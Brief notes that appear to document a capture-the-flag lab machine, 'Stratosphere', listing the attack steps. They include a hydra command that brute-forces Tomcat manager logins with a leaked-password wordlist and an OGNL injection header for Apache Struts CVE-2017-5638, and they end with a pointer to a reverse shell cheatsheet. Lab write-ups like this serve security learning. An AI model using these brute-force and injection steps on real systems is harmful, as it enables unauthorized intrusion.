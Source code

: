
# Stratosphere

```
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.64 http-get /manager
```
google > identify struts version > cve-2017-5638
> https://blog.qualys.com/product-tech/2017/03/14/apache-struts-cve-2017-5638-vulnerability-and-the-qualys-solution
```
Content-Type: %{#context[‘com.opensymphony.xwork2.dispatcher.HttpServletResponse’].addHeader(‘X-Qualys-Struts’,3195*5088)}.multipart/form-data
```
google > reverse shell cheatsheet

